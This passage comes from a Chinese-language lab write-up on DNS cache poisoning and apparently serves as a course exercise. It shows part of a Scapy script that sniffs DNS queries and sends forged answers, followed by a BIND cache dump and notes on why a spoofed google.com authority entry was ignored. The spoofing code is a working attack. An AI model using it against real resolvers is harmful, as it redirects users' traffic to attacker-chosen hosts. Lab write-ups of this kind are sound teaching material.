 ```python

        # Construct the DNS packet
        DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=0, rd=0, 
        	qr=1, qdcount=1, ancount=1, nscount=0, arcount=0, an=Anssec)
        
        # Construct the entire IP packet and send it out
        spoofpkt = IPpkt/UDPpkt/DNSpkt
        send(spoofpkt)
    elif ('ns2.hust.edu.cn' in pkt[DNS].qd.qname.decode('utf-8')):
        # The Answer Section
        Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A', 
        	ttl=11803, rdata='200.10.3.27')

        # Construct the DNS packet
        DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=0, rd=0, 
        	qr=1, qdcount=1, ancount=1, nscount=0, arcount=0, an=Anssec)
        
        # Construct the entire IP packet and send it out
        spoofpkt = IPpkt/UDPpkt/DNSpkt
        send(spoofpkt)

# Sniff UDP query packets and invoke spoof_dns().
f = 'udp and dst port 53 and src host 172.18.0.3'
pkt = sniff(iface='br-e4a075733e38', filter=f, prn=spoof_dns)

```

- 清空`DNS`服务器的缓存后，在攻击机运行该程序进行攻击，在客户机使用`dig www.hust.edu.cn`进行请求。
- 转储并查看服务器的`DNS`缓存（见`dump_another_domain.db`），没有`google.com`对应的缓存：

```shell
root@DNS_Server:/# rndc dumpdb -cache
root@DNS_Server:/# cat /var/cache/bind/dump.db              
;
; Start view _default
;
;
; Cache dump of view '_default' (cache _default)
;
$DATE 20220501131432
; authauthority
hust.edu.cn.		11603	IN NS	ns1.hust.edu.cn.
			11603	IN NS	ns2.hust.edu.cn.
; authanswer
www.hust.edu.cn.	11603	A	172.18.0.1

```

![1.6.2.没有google.com对应的缓存](https://raw.githubusercontent.com/BIIIANG/pic/main/202205012124749.png)

- 攻击过程获得的数据包见`1.6.1-针对另一个域.pcapng`，可见欺骗报文的确包含`google.com`对应的授权条目，因此推测该条目被服务器忽略了：

![1.6.3.攻击发送了google.com](https://raw.githubusercontent.com/BIIIANG/pic/main/202205012127366.png)
